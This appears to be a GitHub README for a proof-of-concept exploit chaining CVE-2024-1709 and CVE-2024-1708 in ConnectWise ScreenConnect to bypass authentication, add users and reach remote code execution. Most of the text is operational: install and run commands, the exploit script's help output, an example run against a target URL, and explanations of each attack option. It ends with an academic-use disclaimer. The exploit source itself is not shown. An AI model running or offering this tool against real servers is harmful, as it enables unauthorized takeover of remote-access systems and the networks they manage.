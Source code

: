 #
<h2>CoonectWise Remote Code Execution</h2>

- <b>Common Vulnerabilities and Exposures ID: 
CVE-2024-1709
</b>

- <b>CVSS v3 Score: 9.5 (Critical)</b>
  
- <b>Description: This is a critical authentication bypass vulnerability affecting ConnectWise ScreenConnect versions 23.9.7 and earlier. This vulnerability allows an attacker to bypass authentication and gain unauthorized access to systems and sensitive information. </b>

## POC
[Root Cause Analysis (RCA) & Indicators Of Comprimise (IOCs):](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/c6d6a60e-433f-4f80-807d-dc7bc061cb96)

## Usage
```
pip install requests
# python 
check.py
python batchAdduser.py
```
![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708
 && 
CVE-2024-1709
 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

## Execution:
* -u or --username: Enter a username to potentially use in the attack.
* -p or --password: Enter a password to potentially use in the attack.
* -t or --target: Specify the URL of the target ScreenConnect server.
* -d or --domain (unclear purpose): Might be for specifying a domain name related to the target.
* --proxy: Allows using a proxy server for the attack (optional).

## Aditional Information:
>https://screenconnect.product.connectwise.com/communities/1/topics/1653-whitelist-custom-extensions-in-65

>https://www.connectwise.com/globalassets/media/documents/connectwisecontrolsecurityevaluationmatrix.pdf

## SecAdmin Notes
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

